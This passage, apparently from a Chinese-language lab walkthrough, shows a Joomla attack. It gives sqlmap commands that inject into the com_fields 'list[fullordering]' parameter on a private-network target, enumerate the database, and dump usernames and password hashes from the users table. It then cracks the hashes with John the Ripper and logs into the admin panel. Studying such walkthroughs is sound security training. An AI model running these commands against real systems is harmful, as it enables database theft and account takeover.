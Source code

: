 ![image-20230806113607199](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806113607199.png)

- 列出指定数据库的所有表

```shell
sqlmap -u "http://192.168.80.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb --tables 


-D  #指定数据库，当数据库名含有特殊符号的时候，需要用引号包括起来

--tables #列出表
```

![image-20230806113827830](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806113827830.png)

- 列出指定库指定表的字段名

```shell
sqlmap -u "http://192.168.80.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T "#__users" --columns

```

![image-20230806115957141](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806115957141.png)

- 获取用户名和密码

```shell
sqlmap -u "http://192.168.80.134/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T "#__users" -C username,password --dump
```

![image-20230806121051296](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806121051296.png)

发现用户的密码做了加密

##### **John工具密码爆破**

john  是一款大受欢迎的、免费的开源软件、基于字典的密码破解工具。

利用John工具，对该密码进行爆破拆解，工具详细信息参考[John介绍及常用命令使用说明](https://blog.csdn.net/blue_starry_sky/article/details/61206488)

先在桌面创建一个文件，将得到的用户密码的hash值复制进去并保存，使用john破解。

![image-20230806121152271](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806121152271.png)

![image-20230806121221027](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806121221027.png)

![image-20230806121336721](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806121336721.png)

得到密码后，登录后台界面
